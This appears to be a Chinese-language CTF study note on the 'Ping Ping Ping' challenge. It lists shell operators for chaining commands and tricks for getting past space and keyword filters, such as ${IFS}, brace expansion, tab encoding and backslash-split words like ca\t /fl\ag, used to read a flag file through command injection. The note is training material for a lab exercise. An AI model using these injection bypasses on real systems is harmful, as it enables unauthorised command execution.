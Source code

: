 作用是直接执行|后面的语句

|| 逻辑或

作用是如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句

& 按位与

&前面和后面命令都要执行，无论前面真假

&& 逻辑与

如果前面为假，后面的命令就不执行，如果前面为真则再执行后面命令，这样两条命令都会被执行

---

## [GXYCTF2019]Ping Ping Ping

### 题解：

[【BUUCTF】[GXYCTF2019] Ping Ping Ping 总结笔记 Writeup-CSDN博客](https://blog.csdn.net/vanarrow/article/details/108295481)

命令联合执行：
```sh
;     前面的执行完执行后面的
|     管道符，上一条命令的输出，作为下一条命令的参数（显示后面的执行结果）         
||    当前面的执行出错时（为假）执行后面的
&     将任务置于后台执行
&&    前面的语句为假则直接出错，后面的也不执行，前面只能为真
%0a  （换行）
%0d  （回车）
```

命令绕过空格的方法：
```sh
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）

ps:有时会禁用cat:
解决方法是使用tac反向输出命令：
linux命令中可以加\，所以甚至可以ca\t /fl\ag

```
